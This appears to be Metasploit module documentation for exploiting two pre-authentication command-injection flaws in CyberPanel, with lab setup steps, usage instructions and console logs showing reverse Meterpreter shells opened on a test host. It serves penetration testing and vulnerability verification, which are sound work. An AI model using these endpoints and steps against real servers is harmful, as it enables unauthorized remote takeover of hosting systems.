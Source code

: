 ## Vulnerable Application

CyberPanel is an open-source web hosting control panel based on OpenLiteSpeed.
This module exploits two pre-authenticated remote command execution (RCE) vulnerabilities found in certain versions of CyberPanel.

- **CVE-2024-51378**: The `getresetstatus` endpoint in `dns/views.py` and
`ftp/views.py` in CyberPanel before commit `1c0c6cb` allows remote attackers to
bypass authentication and execute arbitrary commands via `/dns/getresetstatus` or
`/ftp/getresetstatus` by bypassing `secMiddleware`(which applies only to POST
requests) and using shell metacharacters in the `statusfile` property.
This vulnerability has been exploited in the wild as of October 2024 by PSAUX, affecting versions through 2.3.6 and the unpatched 2.3.7.

- **CVE-2024-51567**: The `upgrademysqlstatus` endpoint in `databases/views.py` in
CyberPanel before commit `5b08cd6` allows remote attackers to bypass authentication
and execute arbitrary commands via `/dataBases/upgrademysqlstatus`, also by
bypassing `secMiddleware` and using shell metacharacters in the `statusfile` property.
This vulnerability has similarly been exploited in the wild in October 2024
by PSAUX, impacting versions through 2.3.6 and the unpatched 2.3.7.

These vulnerabilities allow attackers to execute commands on the server without needing authentication.

### Installation Instructions

To set up a vulnerable instance of CyberPanel for testing, follow these
instructions on an Ubuntu 18.04 server (or later).
The example below demonstrates installation on Ubuntu 18.04, though newer versions of Ubuntu should work as well.

1. First, install necessary dependencies and disable IPv6 to avoid potential network issues:

```bash
sudo su -
apt update && apt install -y curl wget
sysctl -w net.ipv6.conf.all.disable_ipv6=1
sysctl -w net.ipv6.conf.default.disable_ipv6=1
```

2. Then, download and run the CyberPanel installation script:

```bash
sh <(curl https://cyberpanel.net/install.sh || wget -O - https://cyberpanel.net/install.sh)
```

3. During installation, choose the following options:
   - Install CyberPanel: Select option `1`
   - Install CyberPanel with OpenLiteSpeed: Select option `1`
   - Skip full installation (choose `n`)
   - Skip Postfix, PowerDNS, and PureFTPd installations
   - Skip Remote MySQL setup
   - Install CyberPanel version `2.3.5` when prompted
   - Decline Memcached and Redis installations

## Verification Steps

1. Install CyberPanel as outlined above.
2. Start `msfconsole`.
3. Use the module path: `use exploit/unix/webapp/cyberpanel_preauth_rce_multi_cve`.
4. Set the `RHOSTS` option to the target server’s IP.
5. Run the exploit with the desired CVE (choose either `cve-2024-51567` or `cve-2024-51378`).
6. A successful exploitation should provide a shell on the target.

## Options

No option

## Scenarios

### Example: CVE-2024-51567 on CyberPanel 2.3.5 (Ubuntu 18.04)

To exploit `CVE-2024-51567` and achieve remote command execution:

```bash
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > show actions 

Exploit actions:

       Name            Description
       ----            -----------
       CVE-2024-51378  Exploit using CVE-2024-51378
   =>  CVE-2024-51567  Exploit using CVE-2024-51567


msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090/

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] CSRF Token retrieved: ptcsu2Gumssya7hVSDpZXsPse0wu0kCoW4BsEMrXj0rmeX4CvsUwPDPbXNQIJXgJ
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 192.168.1.16:48380) at 2024-10-31 22:01:34 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-84-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```

### Example: CVE-2024-51378 on CyberPanel 2.3.5 (Ubuntu 18.04)

To exploit `CVE-2024-51378` and achieve remote command execution:

```bash
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > set action CVE-2024-51378
action => CVE-2024-51378
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > show actions

Exploit actions:

       Name            Description
       ----            -----------
   =>  CVE-2024-51378  Exploit using CVE-2024-51378
       CVE-2024-51567  Exploit using CVE-2024-51567


msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090/

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] CSRF Token retrieved: kbMIa2vWhrrlbTjMr1HVvX4IyecR3ENVkQwrJj7qZcXqAwYvo7a6d7MBQUxYnqaX
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 192.168.1.16:48384) at 2024-10-31 22:02:36 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-84-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
